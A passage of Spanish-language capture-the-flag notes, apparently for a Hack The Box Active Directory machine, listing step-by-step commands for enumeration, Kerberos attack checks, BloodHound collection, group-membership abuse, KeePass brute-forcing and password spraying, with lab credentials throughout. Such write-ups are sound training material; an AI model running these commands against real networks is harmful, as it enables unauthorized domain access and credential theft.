 levi.james:KingofAkron2025!
## Reconocimiento

Empezaremos realizando un reconocimiento con la herramienta de [[RUSTSCAN]] que es un [[NMAP]] con esteroides:
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

```ad-info
rustscan tambien usa herramintas de nmap para una mejor respuesta sobre el reconocimiento de puertos
```

Los puertos encontrados mas relevantes son:
```js
53 - DNS
88 - kerberos
111 - rpcbind
389 - LDAP
445 - SMB
5985 - WinRm
```

Usaremos [[CRACKMAPEXEC-NETEXEC]] para enumerar información básica del servicio **LDAP**.
`netexec ldap $IP 2>/dev/null` 

```js

LDAP $IP 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)

```

Nos muestra: el protocolo `LDAP` la `IP` y el puerto `389`, a continuación nos muestra el rol del host `DC` que es **Domain Controller**, identificación del sistema operativo , nombre del host y dominio completo `FQDN`


Usaremos la herramienta de `https://github.com/Gzzcoo/iRealm` para añadir la maquina al `/etc/hosts` y el nombre de dominio y FQDN a `/etc/krb5.conf`
`iRealm --force $IP PUPPY.HTB DC`


Verificamos las credenciales que nos han aportado son validas con [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!'`

Nos mostrara que las credenciales son validas


Buscamos recursos compartidos en el servicio *SMB* con [[CRACKMAPEXEC-NETEXEC]]
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Usaremos la opción `--shares` para listar los recursos compartidos y el modulo `-M spider_plus` para hacer una búsqueda profunda de recursos compartidos nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

### Enumeración Usuarios

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`

```ad-hint    
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

Enumeración de usuarios y verificar que exista en el dominio con la herramienta [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames`

 O también podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
 `netexec ldap $IP -u users.txt -p '' -k`

 ```ad-note
   El error KDC_ERR_PREAUTH_FAILED la contraseña no funciona pero existe el usuario
  El error KDC_ERR_CLIENT_REVOKED existe el usuario
 ```
 


```ad-info
### Verificacion de firerentes vectores de ataque
#### AS-REP ROASTING (Sin creds)
Busca obtener _hashes_ de contraseñas de usuarios que tengan deshabilitada la **preautenticación Kerberos**
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque.

#### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga **serviceprincipalname** (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque.  
```


### Recopilacion de datos de AD

Recopilaremos unformacion del LDAP y lo guardaremos en un `.zip` que es le usaremos para subir al **BloodHound**, usaremos la herramienta [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server $IP`
Usaremos la opcion `--bloodhound` que activa el modulo de recoleccion de datos
Subimos el archivo a bloodhound

Añadimos usuario a grupo DEVELOPERS por que tenemos generic write
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos vovemos a acceder al smb y vemos que tenmos acceso a DEV
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de keepass `kdbx` 
`recovery.kdbx`

Nos descargamos el archivo 
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

Lo añadimos a Keepassxc el archivo y nos pide una passwd
como no la tenemos la hacemos fuerza bruta

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`

Dentro del archivo encontramos contraseñas, que las añadimos a un archivo y lo guardamos
Y haremos fuerza bruta a los primeros usuarios encontrados
`nxc ldap $IP -u users.txt -p pass.txt --continu-on-success | grep '[+]'`
Nos encuentra el siguiente user
`[+] PUPPY.HTB\ant.edwards:Antman2025!`




